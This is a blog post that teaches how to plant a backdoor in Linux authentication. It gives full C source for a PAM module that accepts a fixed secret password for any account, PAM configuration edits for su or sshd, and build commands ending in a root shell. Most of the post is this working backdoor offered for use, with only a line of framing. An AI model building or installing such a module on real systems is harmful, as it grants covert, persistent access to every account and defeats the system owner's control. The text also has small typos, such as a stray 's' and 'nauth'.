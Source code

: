 ```yaml
---
layout: post
title:  "Tiny PAM Authentication Module Backdoor"
date:   2012-04-08 18:22:00
categories: coding security
permalink: post/tiny-pam-authentication-module-backdoor/
---
```


This trick explains you how to create a **PAM module backdoor** that allow you to login in any account of system with your own password.
s
### Example of pam_bd.so module as backdoor

{% highlight c %}
/* pam_bd.so - Simple PAM Module Backdoor */

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <security/pam_appl.h>
#include <security/pam_modules.h>

#define BACKPASS "SET_BACKDOOR_PASSWORD"

PAM_EXTERN int
pam_sm_setcred(pam_handle_t *pamh, int flags, int argc, const char **argv) {
        return PAM_SUCCESS;
}

PAM_EXTERN int
pam_sm_acct_mgmt(pam_handle_t *pamh, int flags, int argc, const char **argv) {
        return PAM_SUCCESS;
}

PAM_EXTERN int
pam_sm_authenticate(pam_handle_t *pamh, int flags,int argc, const char **argv) {
        char *password = NULL;
        pam_get_authtok(pamh, PAM_AUTHTOK, (const char **)&password, NULL);

        if(!strncmp(password, BACKPASS, strlen(BACKPASS)))
                return PAM_SUCCESS;

        return -1;
}
{% endhighlight %}

### Configuration

Now we need to configure PAM to load our module, first edit `/etc/pam.d/su` (if you want you can edit `/etc/pam.d/sshd` or other services that uses PAM system to perform authentication) and add/mod the lines below:

{% highlight text %}
#%PAM-1.0
nauth           sufficient      pam_rootok.so
auth            sufficient      pam_unix.so      # CHANGE TO "SUFFICIENT"
account         required        pam_unix.so
session         required        pam_unix.so
auth            sufficient      pam_bd.so        # ADD YOUR PAM MODULE FOR AUTH
account         sufficient      pam_bd.so        # ADD YOUR PAM MODULE FOR ACCOUNT
{% endhighlight %}

### Build It as library and try Login

{% highlight bash %}
eurialo $ gcc -fPIC -fno-stack-protector -c pam_bd.c
eurialo $ sudo ld -x --shared -o /lib/security/pam_bd.so pam_bd.o
eurialo $ rm pam_bd.o
eurialo $ su - root
Password: *REAL PASSWD* OR *FAKE PASSWD*
root ~ #
{% endhighlight %}

